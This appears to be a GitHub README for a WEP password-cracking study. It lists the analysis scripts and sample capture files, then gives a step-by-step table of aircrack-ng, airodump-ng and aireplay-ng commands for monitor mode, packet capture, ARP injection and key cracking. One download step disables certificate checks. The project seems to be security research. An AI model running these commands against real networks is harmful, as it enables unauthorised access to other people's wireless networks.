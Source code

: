 |lib_TableReader.py|To assist in CSV operations https://github.com/ezekieltan/TableReader|
|theoreticalAnalysis.py|Statistical analysis of number of IVs|
|theoreticalAnalysis2.py|Viewer for CSVs from theoreticalAnalysis.py|
|WEPcrack-05.cap|Sample .cap file from airodump|
|WEPcrack-05.csv|Sample .csv file for cracking password|

## Use of Code
| Steps |	Command | Remarks |
|-|-|-|
|From Fresh CentOS 7 VM	||
|Enter root|	su -|root is required to perform driver installation|
|Install driver according to instructions|	https://github.com/aircrack-ng/rtl8188eus ||
|Pass wifi adapter to VM	|Ensure it shows up and can scan for nearby networks before proceeding|
|Reboot|||
|Enter root|su -||
|Update all packages|	yum update||
|Make a working directory in the Desktop|mkdir wd||
|Get aircrack|wget https://li.nux.ro/download/nux/dextop/el7/x86_64/aircrack-ng-1.2-0.8rc2.el7.nux.x86_64.rpm --no-check-certificate||
|Install aircrack|	rpm -i aircrack-ng-1.2-0.8rc2.el7.nux.x86_64.rpm ||
|Test airmon|	airmon-ng||
|Stop inteferring processes	|sudo airmon-ng check kill||
|Enter monitor mode	|sudo ip link set `interface` down||
|	|sudo iw dev `interface` set type monitor||
|Launch airodump-ng|	airodump-ng `interface`||
|Start capturing|	airodump-ng --bssid `router MAC` -c `channel` -w WEPcrack -D `interface`|At least one device needs to be connected and with traffic flowing|
|Start injecting	|aireplay-ng -3 -b `router MAC` -h `station MAC` -D `interface`|At least one device needs to be connected, and need to wait for ARP request. If that device is deassociated from the network, injection will fail|
|Crack packets with aircrack (to test)	|aircrack-ng `filename`||
|Switch to Windows computer|||
|Split packets	|"C:\Program Files\Wireshark\editcap.exe" -c `packets per file` `filename` dump||
|Process packets	|python capReaderMulti.py `folder name` `packets per file`||
|Merge CSV files|	python capReaderMerger.py `folder name`||
|Crack passwords	|capAnalysis.ipynb||
